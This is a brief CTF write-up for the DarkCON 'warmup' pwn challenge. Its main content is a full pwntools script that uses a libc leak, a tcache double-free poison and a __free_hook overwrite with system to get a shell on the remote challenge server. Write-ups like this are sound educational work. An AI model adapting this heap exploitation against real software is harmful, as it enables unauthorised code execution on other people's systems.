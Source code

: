 ## DarkCON CTF: warmup [pwn]
##### *tl;dr: libc 2.27 double free to tcache poison*

![](warmup_desc.png)
#### I'll do a more detailed writeup later. After reversing, we find out that we don't have uaf/heap overflow but we can double free without restrictions. We leverage this double free to perform a tcache poison to get a chunk on top of `__free_hook` and free a chunk with `'/bin/sh'` as it's first 8 bytes to get a shell.

```python
from pwn import *

#: CONNECT TO CHALLENGE SERVERS
binary = ELF('./a.out', checksec = False)
libc = ELF('./libc.so.6', checksec = False)

#p = process('./a.out', env = {'LD_PRELOAD' : libc.path})
p = remote("65.1.92.179", 49155)
strcpy_leak = int(p.recvuntil('\n').split('gift: ')[1].strip(), 16)
libc_base = strcpy_leak - 0xb65b0

log.info(hex(strcpy_leak))
log.info(hex(libc_base))
print(p.recvuntil('exit\n'))

#: GDB SETTINGS
breakpoints = ['break *0x400b17', 'break *0x400ba7']
#gdb.attach(p, gdbscript = '\n'.join(breakpoints))

#: EXPLOIT INTERACTION STUFF
def create_chunk(index, size, data):

	p.sendline('1')
	p.sendline(str(index))
	p.sendline(str(size))
	p.sendline(data)
	print(p.recvuntil('exit\n'))

def delete_chunk(index):

	p.sendline('2')
	p.sendline(str(index))
	print(p.recvuntil('exit\n'))

#: PWN THY VULNS
create_chunk(0, 0x10, 'A' * (0x10 - 1))
create_chunk(1, 0x10, 'B' * (0x10 - 1))

delete_chunk(0)
delete_chunk(1)
delete_chunk(0)

create_chunk(0, 0x10, p64(libc_base + libc.symbols['__free_hook']))
create_chunk(1, 0x10, '/bin/sh\x00')
create_chunk(2, 0x10, '/bin/sh\x00')
create_chunk(3, 0x10, p64(libc_base + libc.symbols['system']))
p.interactive()
```
![](warmup_shell.png)